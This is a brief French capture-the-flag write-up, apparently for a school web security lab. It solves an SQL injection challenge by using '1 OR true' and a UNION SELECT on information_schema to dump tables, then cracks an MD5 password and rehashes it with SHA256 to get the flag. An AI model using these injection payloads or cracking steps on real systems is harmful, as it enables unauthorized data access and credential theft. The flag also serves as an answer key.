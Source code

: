 Injection SQL

Aller dans l'onglet MEMBERS
Taper dans la recherche '1 OR true' pour afficher tous les membres

On peut voir un compte :
First name: Flag
Surname : GetThe

Nous voulons trouver toutes les tables et colonnes associer à la database

1 UNION SELECT table_name, column_name FROM information_schema.columns

Structure des tables de la DB:
USERS(user_id, first_name, last_name, town, country, planet, Commentaire, countersign)
GUESTBOOK(id_comment, comment, name)
LIST_IMAGES(id, url, title, comment)
VOTE_DBS(id_vote, vote, nb_vote, subject)

Nous allons donc récupérer toutes les informations de notre compte Flag :

user_id: 5
first_name: Flag
last_name: GetThe
town: 42
country: 42
planet: 42
Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28

On peut voir un code chiffré dans la colonne 'countersign', on va la décoder à l'aide du site dcode, c'est un chiffrement MD5 (FortyTwo), dans la colonne commentaire il est demandé de dechiffrer le mot de passe, de le mettre en minuscule et de le chiffrer en SHA256, ce qui donne fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

